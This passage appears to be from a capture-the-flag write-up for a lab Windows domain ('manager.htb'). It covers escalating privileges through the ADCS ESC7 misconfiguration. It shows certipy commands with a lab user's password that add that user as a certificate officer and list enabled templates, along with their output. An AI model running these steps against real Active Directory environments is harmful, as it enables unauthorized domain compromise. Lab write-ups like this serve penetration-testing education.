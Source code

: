 The current "Raven" user has the "ManageCa" right. Certify was able to detect the ESC7 vulnerability regarding ADCS. ESC7 represents the code for one of the attacks that exploits ADCS shown in the [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)whitepaper.

![](img/manager9.png)

We need to document how to exploit ESC7 for domain escalation. There is an excellent resource available at: [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).

The various steps are performed, specifically "Attack 2" (suing certipy). First step: grant yourself the "Manage Certificates" access right by adding your user as a new officer.

```shell
$ certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -add-officer 'raven'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

The image below shows the effect of the command: raven, now has the right "Manage Certificates".

![](img/manager10.png)

Second step: check whether the "SubCA" template is enabled.

```shell
$ certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-DC01-CA':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
```